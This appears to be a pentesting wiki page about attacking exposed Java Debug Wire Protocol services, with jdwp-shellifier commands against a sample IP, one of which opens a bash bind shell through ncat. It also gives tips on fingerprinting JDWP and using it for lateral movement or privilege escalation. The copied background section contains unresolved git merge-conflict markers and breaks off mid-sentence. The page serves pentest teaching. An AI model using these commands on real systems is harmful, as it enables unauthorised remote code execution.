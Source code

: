 # Pentesting JDWP - Java Debug Wire Protocol

## Exploiting

You can use the python exploit located in [https://github.com/IOActive/jdwp-shellifier](https://github.com/IOActive/jdwp-shellifier)

```bash
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 #Obtain internal data
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 --cmd 'ncat -l -p 1337 -e /bin/bash' #Exec something
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 --break-on 'java.lang.String.indexOf' --cmd 'ncat -l -p 1337 -e /bin/bash' #Uses java.lang.String.indexOf as breakpoint instead of java.net.ServerSocket.accept
```

I found that the use of` --break-on 'java.lang.String.indexOf'` make the exploit more **stable**. And if you have the change to upload a backdoor to the host and execute it instead of executing a command, the exploit will be even more stable.

Normally this debugger is run on port 8000 and if you establish a TCP connection with the port and send "**JDWP-Handshake**", the server should respond you with the same string.\
Also, you can check this string in the network to find possible JDWP services.

Listing **processes**, if you find the string "**jdwk**" inside a **java process**, probably it has active the **Java Debug Wired Protocol **and you may be able to move laterally or even **escalate privileges** (if executed as root).

## More details

**Copied from **[**https://ioactive.com/hacking-java-debug-wire-protocol-or-how/**](https://ioactive.com/hacking-java-debug-wire-protocol-or-how/)****

### **Java Debug Wire Protocol**

**Java Platform Debug Architecture (JPDA)**JDWP is one component of the global Java debugging system, called the Java Platform Debug Architecture (JPDA)\[2]. The following is a diagram of the overall architecture:

[![](https://ioactive.com/wp-content/uploads/2014/04/jdpa.png)](https://ioactive.com/wp-content/uploads/2014/04/jdpa-1.png)

<<<<<<< HEAD
The Debuggee consists of a multi-threaded JVM running our target application. In order to be remotely debuggable, the JVM instance must be explicitly started with the option -Xdebug passed on the command line, as well as the option -Xrunjdwp \(or -agentlib\). For example, starting a Tomcat server with remote debugging enabled would look like this:
=======
  The Debuggee consists of a multi-threaded JVM running our target application. In order to be remotely debuggable, the JVM instance must be explicitly started with the option -Xdebug passed on the command line, as well as the option -Xrunjdwp (or -agentlib). For example, starting a Tomcat server with remote debugging enabled would look like this:
>>>>>>> 72cbd88461ed0e65da5433596050dd2ecb643f6b
